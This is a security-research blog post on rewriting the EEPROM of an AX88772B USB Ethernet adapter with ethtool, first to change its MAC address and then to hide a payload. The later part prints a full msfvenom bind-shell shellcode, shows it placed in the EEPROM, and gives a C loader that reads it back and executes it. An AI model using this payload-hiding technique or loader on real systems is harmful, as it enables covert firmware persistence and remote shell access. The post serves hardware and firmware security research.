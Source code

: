 ```yaml
---
layout: posts
title:  "MAC Address Changing Revisited"
date:   2022-05-22 00:00:00 -0600
categories: eeprom nic
author: Nicholas Starke
---
```


My new friend [Gundiuc Oleg](https://twitter.com/GundiucO) reached out to me regarding [an older blog post I wrote](https://nstarke.github.io/networking/mac-address/ethtool/2019/09/21/ethtool-change-mac-address-permanently.html) about permanently changing MAC addresses on NICs.  Gundiuc was targeting the AX88772B chipset on USB ethernet adapters.  If you're interested in following along, I used [this USB Ethernet adapter](https://www.amazon.com/gp/product/B00MYT481C) for testing (no affiliate link - I don't make any money if you buy one).

The purpose of this article is to demonstrate some techniques for permanently changing MAC addresses on this chipset in more detail than the previous post.  

The first thing we need to do is identify the NIC "magic" quad-word.  The [Linux kernel driver for ASIX based NICs](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L158) tells us this value is **0xdeadbeef**. We will use this value to write data to the EEPROM on the chipset. For reference, my NIC is id'd as **enx000ec646478d**

Now, when we run **ethtool -e enx000ec646478d** we are greeted with the following output:

```
Offset		Values
------		------
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01a0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01b0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01c0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01d0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01e0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01f0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Now this is a nice hexdump of the EEPROM data for human consumption, but if we want the raw binary bytes, we need to run **ethtool** like so:

```
# ethtool -e enx000ec646478d raw on > eeprom.bin
```

This will give us the EEPROM dump as binary data.  We can then use our favorite hex editor to change the six byte MAC address at offset **0x8** into the EEPROM dump.  A quick note, the NIC chipset [expects data to be read](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix_common.c#L693) in **0x10** byte incremenets, so we are not able to write directly to **0x8**, we must read the first 0x10 bytes and modify the six bytes starting at 0x8.  My recommendation is to read out the full contents of the EEPROM then use a hex editor to modify just the bytes you wish to modify.  Keep in mind the full EEPROM dump length [must equal](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L159) **0x200** (decimal 512).  I mention this because sometimes when I use vim in xxd mode, the conversion back to binary results in an extra newline character being appended to the end of whatever binary data I am working with.  So just as a sanity check, run **ls -l eeprom.bin** to ensure the file size is **512**.

After we have made our modifications to eeprom.bin, we need to flash those changes to the chipset.  The command to do so in this instance is:

```
# ethtool -E enx000ec646478d magic 0xdeadbeef < eeprom.bin
```

# Hiding payloads

There was a [great presentation](https://www.youtube.com/watch?v=KDo3CExd8Ns) at DEFCON 28 by Jesse Michael and Mickey Shkatov about hiding binary payloads in firmware.  This firmware chipset can be used to accomplish this goal.  Take for example the output of the following command:

```
$ msfvenom --payload linux/x86/shell/bind_tcp | xxd
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 111 bytes

00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e1    ........[......
```

This is a 111 byte payload. We can make the last byte a NOP (0x90) in order to conform to the 16-byte alignment constraint.  That would result in:

```
00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e190  ........[.......
```

 From the EEPROM dump, all bytes past 0x140 (320 decimal) are null bytes. We could write our msfvenom payload to offset 0x190.  Then the EEPROM dump would look like this:

 ```
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		6a 7d 58 99 b2 07 b9 00 10 00 00 89 e3 66 81 e3 
0x01a0:		00 f0 cd 80 31 db f7 e3 53 43 53 6a 02 89 e1 b0 
0x01b0:		66 cd 80 51 6a 04 54 6a 02 6a 01 50 97 89 e1 6a 
0x01c0:		0e 5b 6a 66 58 cd 80 89 f8 83 c4 14 59 5b 5e 52 
0x01d0:		68 02 00 11 5c 6a 10 51 50 89 e1 6a 66 58 cd 80 
0x01e0:		d1e 3 b0 66 cd 80 57 43 b0 66 89 51 04 cd 80 93 
0x01f0:		b6 0c b0 03 cd 80 87 df 5b b0 06 cd 80 ff e1 90
 ```

 At this point, after this data is flashed to the NIC EEPROM, it is possible to use **ethtool** to retrieve the msfvenom payload and then execute it.  For this particular chipset, we have 192 (0xc0) bytes to store a payload.  That is from EEPROM offset 0x140 to the end of the EEPROM data at 0x200.  

 Here is some example C code to demonstrate how this works.

 ```c++
#include <stdio.h>
#include <stdlib.h>

#define SHELL_CODE_START 400
#define ETHTOOL_OUTPUT_LENGTH 512

int main(int argc, char **argv) {
    FILE *fp;
    unsigned char buffer[ETHTOOL_OUTPUT_LENGTH + 1];
    void(*shell_code)();

    fp = popen("ethtool -e enx000ec646478d raw on", "r");
    if (!fp) {
	    perror("popen");
    }

    fgets(buffer, sizeof(buffer), fp);
    
    pclose(fp);
    
    shell_code = (void(*)()) (buffer + SHELL_CODE_START);
    printf("running shell code\n");
    (shell_code)();

    return 0;
}
 ```

 This code will need to be compiled with gcc as such:

 ```
 $ gcc -o harness -m32 -z execstack harness.c
 ```

 The **-m32** is because the shellcode is **x86** targeted in the example above.

 The **-z execstack** is necessary because we are storing the shell code in a local variable, which is located on the stack.  Therefore, we are executing directly off the stack in this example.  This could be easily fixed by using **mmap** and executing from somewhere else in memory.

 Happy hacking!